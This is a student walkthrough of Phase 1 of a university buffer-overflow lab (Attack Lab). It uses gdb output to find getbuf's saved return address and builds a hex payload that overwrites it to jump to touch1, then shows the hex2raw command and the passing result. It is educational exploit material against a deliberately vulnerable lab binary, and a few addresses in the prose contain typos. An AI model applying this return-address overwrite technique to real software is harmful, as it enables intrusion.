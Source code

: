 Then, input `ni` twice, we can get frame information by command `i f`:

```txt
Stack level 0, frame at 0x5561dca8:
 rip = 0x4017af in getbuf (buf.c:14); saved rip = 0x401976
 called by frame at 0x5561dcb8
 source language c.
 Arglist at 0x5561dc70, args:
 Locals at 0x5561dc70, Previous frame's sp is 0x5561dca8
 Saved registers:
  rip at 0x5561dca0
```

we can infer that the return address of `getbuf` is `0x401976`, and located at address `0x5561dcb8`, and look at the `%rsp`, we get following information:

```txt
0x5561dc78:     0x0     0x0
0x5561dc88:     0x0     0x0
0x5561dc98:     0x55586000      0x401976 <test+14>
0x5561dca8:     0x2     0x401f24 <launch+112>
```

So, we need fill the address of 0x5561dc78 ~ 0x5561dca0 by chars, and change the value 0x5561ca0 ~ 0x5561ca8 to `4017c0`(the entry of `touch1`.)

Last, we can get the result1:

```bash
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 c0 17 40
```

#### How to use *hex2raw*

For example, if we have a result file of `level1` named *result1.txt*, then we can use `cat result1.txt | ./hex2raw | ./ctarget -q`.

The output is:

```bash
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
    user id bovik
    course  15213-f15
    lab     attacklab
    result  1:PASS:0xffffffff:ctarget:1:30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 C0 17 40
```

### Phase 2

The task of level 2 is to get *ctarget* to execute the code for `touch2` rahter than returning to `test`.
